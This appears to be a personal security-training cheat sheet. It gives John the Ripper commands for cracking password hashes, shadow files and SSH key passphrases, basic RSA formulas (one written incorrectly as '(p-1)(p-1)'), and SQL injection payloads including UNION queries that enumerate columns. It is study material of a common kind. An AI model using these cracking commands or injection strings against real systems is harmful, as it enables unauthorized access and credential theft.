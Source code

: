 # John
```
john --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
john --show hash.txt
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt	# yescrypt cracking

# it converts an encrypted SSH private key into a format that John the Ripper can understand and crack (the passphrase)
ssh2john pass_protected_key > unpassed_key				
```
# RSA
```
n = p . q
d . e = mod (p-1)(p-1)
https://planetcalc.com/8979/
---
encrypt:
1. Convert the plaintext message into an integer (ASCII) ==> m 
2. Encrypt the message to obtain the ciphertext c, where:
c = m^e (mod n)
---
decrypt:
Calculate the plaintext message m, where is:
m = c^d (mod n)
```

===============================================================================
# SQL
```
# In the middle of query: ||
# SELECT * FROM users WHERE password="mypassword" OR "1"="1" AND email="admin@example.com";
mypassword" OR "1"="1			# injection

# At the end of the query: ||
# SELECT name, profession FROM users WHERE name LIKE "%%";	== actual query
# SELECT name, profession FROM users WHERE name LIKE "%"; SELECT * FROM users; --%";
"; SELECT * FROM users; --		# injection

# combile two queries in one command:			
Tracy Gill " UNION SELECT Profession, Password FROM users;"
# the number of columnS must match for both queries, if not:
UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1
UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"		# return all columns names in single output
```

===============================================================================
# Links
```
https://github.com/danielmiessler/SecLists		# web/wordlist (seclists)

```

